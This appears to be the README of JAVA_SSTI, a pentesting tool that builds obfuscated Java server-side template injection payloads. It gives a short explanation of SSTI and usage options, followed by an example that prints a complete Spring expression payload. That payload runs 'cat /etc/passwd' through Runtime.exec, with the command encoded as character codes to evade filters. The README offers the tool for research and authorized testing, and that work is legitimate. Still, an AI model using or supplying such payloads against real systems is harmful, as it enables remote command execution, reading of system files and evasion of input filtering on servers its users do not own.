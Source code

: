 <p align="center">
   <img src="https://img.shields.io/badge/Version-v1.0-blue" alt="Version">
   <img src="https://img.shields.io/badge/License-GPL--3.0-brightgreen" alt="License">
</p>

## About

JAVA_SSTI assists the exploitation of Server-Side Template Injection vulnerabilities in java.
The tool and its test suite are developed to research the SSTI vulnerability class and to be used as offensive security tool during web application penetration tests.

What is server-side template injection?
A server-side template injection occurs when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.
Template engines are designed to generate web pages by combining fixed templates with volatile data. Server-side template injection attacks can occur when user input is concatenated directly into a template, rather than passed in as data. This allows attackers to inject arbitrary template directives in order to manipulate the template engine, often enabling them to take complete control of the server.

## Documentation

### Usage options:
```Bash
  eval       Command for obfuscation, for example: 'cat /etc/passwd'
optional arguments:
  -h, --help     show help message
  -v, --verbose  increase verbosity
```

### Example:
```Bash
python3 java_ssti.py 'cat /etc/passwd'
```
```python
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

## Developers

- [0xc7m](https://github.com/0xc7m)

## References
- https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#java

## License

Project JAVA_SSTI is distributed under the GPL-3.0 license.
